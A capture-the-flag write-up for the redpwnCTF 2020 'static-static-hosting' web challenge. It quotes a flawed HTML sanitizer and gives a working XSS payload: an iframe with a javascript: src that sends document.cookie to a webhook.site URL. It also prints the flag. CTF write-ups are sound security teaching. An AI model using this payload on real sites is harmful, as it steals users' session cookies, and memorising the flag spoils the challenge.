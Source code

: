 # static-static-hosting
**Category:** Web

**Points:** 434

**Description:**
> Seeing that my last website was a success, I made a version where instead of
storing text, you can make your own custom websites! If you make something cool,
 send it to me here
>
> **Site:** ` static-static-hosting.2020.redpwnc.tf `
>
> **Note:** The site is entirely static. Dirbuster will not be useful in solving it.
>
> **Author:** BrownieInMotion

## Writeup
This challenge is very similar to the **static-pastebin**
challenge. I would even consider it a precursor to this challenge, so I will
keep this writeup short. If you want more information, check out my
[writeup for static-pastebin](https://github.com/itsecgary/CTFs/tree/master/redpwnCTF%202020/static-pastebin)

Anyways, we check the two links above and get the same bot submission webpage as
well as the same type of pastebin website. The title changed and we see that we
are pasting "HTML" instead of text. Nonetheless, it will most likely be another
**Reflected XSS** attack.

I went ahead and tested out a random word to
see what we are working with. I check the sources and we have another sanitization
function to work with:
```
function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

Looks like we won't be able to but any "script" tags anywhere in there. We can
also see it sanitizes attributes, which limits us even more. Our goal here is probably
to steal the admin-bot's cookie again and we will need to inject some javascript
into a tag here.

After messing around for a while, I reached a point where I am able to overwrite
the location of the current session to a different website. I will be using **Webhook** again
because it worked well for me for the last challenge.

Here is my final exploit:
```
<iframe src="javascript:top.location.href='https://webhook.site/b3ead4c5-b498-4d5f-9b82-f6fa49d9639f/?'+document.cookie"></iframe>
```

I will enter a cookie: "XSS = but make it reflected (part 2)" and test it out.

<img src="attempt.PNG" alt="Attempt 1">

When we click on "Take me to my website!", it redirects right away and it is hard to copy
the address right away. For this case, I just base64 encoded it and put together the URL
and submitted it to the admin-bot.

<img src="winner.PNG" alt="We got the flag">

## Flag
flag{wh0_n33d5_d0mpur1fy}

## Resources
[Webhook](https://webhook.site/)
